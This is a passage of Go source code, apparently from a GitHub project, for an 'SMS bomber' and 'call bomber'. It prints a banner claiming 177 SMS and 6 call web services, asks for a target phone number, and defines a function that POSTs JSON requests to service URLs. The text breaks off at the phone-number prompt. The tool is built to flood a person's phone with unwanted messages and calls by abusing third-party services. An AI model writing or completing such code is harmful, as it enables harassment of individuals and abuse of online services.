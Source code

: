 package main

import (
	"bytes"
	"encoding/json"
	"fmt"
	"net/http"
	"os"
	"os/exec"
	"runtime"
	"time"
)

func clearScreen() {
	cmd := exec.Command("clear")
	if runtime.GOOS == "windows" {
		cmd = exec.Command("cmd", "/c", "cls")
	}
	cmd.Stdout = os.Stdout
	cmd.Run()
}
func sms(url string, header map[string]interface{}, ch chan<- int) {
	//time.Sleep(3 * time.Second)
	jsonData, err := json.Marshal(header)
	if err != nil {
		fmt.Println("\033[01;31m[-] Error ! ")
		ch <- http.StatusInternalServerError
		return
	}
	time.Sleep(3 * time.Second)
	resp, err := http.Post(url, "application/json", bytes.NewBuffer(jsonData))
	time.Sleep(3 * time.Second)
	if err != nil {
		fmt.Println("\033[01;31m[-] Error ! ")
		ch <- http.StatusInternalServerError
		return
	}
	ch <- resp.StatusCode
}

func main() {
	// red := "\033[01;31m"
	// green := "\033[01;32m"
	// yellow := "\033[01;33m"
	clearScreen()
	fmt.Println("\033[01;33m")
	fmt.Println(` 
	███████╗███╗   ███╗███████╗    ██████╗  ██████╗ ███╗   ███╗██████╗ ███████╗██████╗
	██╔════╝████╗ ████║██╔════╝    ██╔══██╗██╔═══██╗████╗ ████║██╔══██╗██╔════╝██╔══██╗
	███████╗██╔████╔██║███████╗    ██████╔╝██║   ██║██╔████╔██║██████╔╝█████╗  ██████╔╝
	╚════██║██║╚██╔╝██║╚════██║    ██╔══██╗██║   ██║██║╚██╔╝██║██╔══██╗██╔══╝  ██╔══██╗
	███████║██║ ╚═╝ ██║███████║    ██████╔╝╚██████╔╝██║ ╚═╝ ██║██████╔╝███████╗██║  ██║
	╚══════╝╚═╝     ╚═╝╚══════╝    ╚═════╝  ╚═════╝ ╚═╝     ╚═╝╚═════╝ ╚══════╝╚═╝  ╚═╝
	`)
	var phone string
	fmt.Println("\033[01;31m[\033[01;32m+\033[01;31m] \033[01;33mSms bomber ! number web service : \033[01;31m177 \n\033[01;31m[\033[01;32m+\033[01;31m] \033[01;33mCall bomber ! number web service : \033[01;31m6\n\n")
	fmt.Print("\033[01;31m[\033[01;32m+\033[01;31m] \033[01;32mEnter phone [Ex : 09xxxxxxxxxx]: \033[00;36m")
	fmt.Scan(&phone)
